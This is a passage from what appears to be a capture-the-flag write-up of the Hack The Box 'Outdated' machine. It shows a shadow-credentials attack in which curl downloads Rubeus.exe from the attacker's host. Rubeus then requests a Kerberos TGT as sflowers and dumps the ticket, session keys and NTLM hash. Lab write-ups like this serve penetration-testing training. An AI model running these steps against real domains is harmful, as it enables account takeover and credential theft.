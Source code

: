 The shadow credential has been added to the account and we are returned a long `Rubeus.exe` string, so lets upload `Rubeus.exe` and execute the command:
```bash
C:\Windows\Tasks>curl http://10.10.14.2:8888/Rubeus.exe -o C:\Windows\Tasks\Rubeus.exe
C:\Windows\Tasks> Rubeus.exe asktgt /user:sflowers /certificate:MIIJsA...qoCAgfQ /password:"qUOOiC6IHD1YbErH" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF0jCCBc6gAwIBBaEDAgEWooIE5zCCBONhggTfMIIE26ADAgEFoQ4bDE9VVERBVEVELkhUQqIhMB+g
      AwIBAqEYMBYbBmtyYnRndBsMb3V0ZGF0ZWQuaHRio4IEnzCCBJugAwIBEqEDAgECooIEjQSCBIkNOdmX
      jSa0Ei9bzfsFcCPd5PWKYpJt9enLuWJ4ee92679C60JShPZl4Tp4rwDD5Qdkp5zBDtfY55HnFbriJ1V1
      Xd4pZQxLZB81U6gNw42X3Gd/Rj1P5C4neIQVlcFZ1uQeNUkfLLi58QIXj7LJODxWNgLgEpW0cxPBJzOd
      gnr9sbLbYb1ubrRf3+nQeF/oQ/NwxojSF6ynmdtrdN2VAd862nSiP2tPXnI4w+z+j5gE7RR50AXpqvBY
      6PQdroHP4aifoUptpVvQdwxwVteEm6mRGoD5usa02JExzjoiRnXVhp385iP3XUaskTFFvEhv50PlqvG8
      SD7RUaFWLjzAkuB7AxxLl8zG5v6EX2A7MmcacFXtjOnEdR5MZutmdyMUX5T/N0V2EHHgyge+6RDASX8o
      1xWjl2khzpPATjg8J0HAtJ6o3eLO+S8Hm+JmJ6iEUkxcQViP1tXcnT5s1N/H73IR0uV+X4dV0V6zC5D5
      p3vt/jDw6l0A8U+OBw2zaqvY0pBbTUsFNouQKayGzXnhBNIGg91INZGaRKE0XZ/kHrupEZZ4BhxFIb+T
      zgzKY4a6V5dgHpgyYgg+El9KNkjE+1hceuZximsgs6exO+QCcHeZ1szGaKnyJdMQo5oWYZiAR8versPg
      qpVG+UlTe6UZ1jaRspBNWpvamJbTNgFEXCaZRdJUheNPSfcqwWE8FdYmPaY8WN1i1hIynTXbxxgjilvC
      LdsKrhGLW+9A4YszQqpTkP4+HngQzdGiFbEAqMjmR+Ryyn6CejjQEMMPPZzu+xu/UItB88Nu/jLMogdS
      DMNWT+uPN0knpIWfyNIX/eAzqOOkl7QxuVeS3CuqqzmbwNn+6M2Xhtd9n33BFvXjU6EqLNzqMBA8CPh1
      qqsK5zcAvgi0OQPm1cNu0cU53g6wgYbXQBtUwfmPD7fAZw4d/CpY23ak6xVf1NCyaPGwAYJ/9Tb/bUs2
      9Ul/NjqfoxV7NoqMkHfJlzt0sG9oM6TEiBGl6kMpLR0wpLw5sySFJq/zb72pOdtir+5j4OYqTHK8C50q
      NDf/Tj4+6/tlHM/EyCeM9043KDEktRVmS+v4h5Jc3sjtKu7DR7NRT85KevlYLCNxGO8iPk0Y/A4bx/lW
      ajqae/Kopf3g0ceXYZeMEZPpK1bfX276yn+/nun2FmIO2InWKVHNKU3YwMlfpmgRLKFovTJ9S5Cc6kti
      6tFhZrP3JAV7HCCQumGr2k6vd48s5GTRxK5KDg7oKEA8LGfFzrPwWeJx+dCnAoOrQ73rGa0wdEPyTGHA
      RtkkjSlOtwjWBnudAOnQqm4FSC3yficJOdFS+4sYF6ZgM/m8P1hlRAzGXcZt6eOjlpezGPN8PsuF8SlZ
      n4wyjkCE9IlRBhgI4bGb7ui4sndIJ9f9GwdOgx0jVM/Dyi8fNYSeoUDji/4FNZdDW6aMypo1VcbVzzHn
      Y/ccRLtYnXj5kamVeJcuG9PtP4p82kLvwEeyFZMVF/lZMpu5tVFMXoMTs7IhwLl3yLqksZhvTo8uttgj
      soF/RfbeO36TOGWsRgB3S6ajgdYwgdOgAwIBAKKBywSByH2BxTCBwqCBvzCBvDCBuaAbMBmgAwIBF6ES
      BBDp4wnEUrmAGjaGXv4XqiJZoQ4bDE9VVERBVEVELkhUQqIVMBOgAwIBAaEMMAobCHNmbG93ZXJzowcD
      BQBA4QAApREYDzIwMjIwODE5MTkzMjI3WqYRGA8yMDIyMDgyMDA1MzIyN1qnERgPMjAyMjA4MjYxOTMy
      MjdaqA4bDE9VVERBVEVELkhUQqkhMB+gAwIBAqEYMBYbBmtyYnRndBsMb3V0ZGF0ZWQuaHRi

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  8/19/2022 12:32:27 PM
  EndTime                  :  8/19/2022 10:32:27 PM
  RenewTill                :  8/26/2022 12:32:27 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  6eMJxFK5gBo2hl7+F6oiWQ==
  ASREP (key)              :  C930BD99144FF387606300042A2D9F52

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5
```
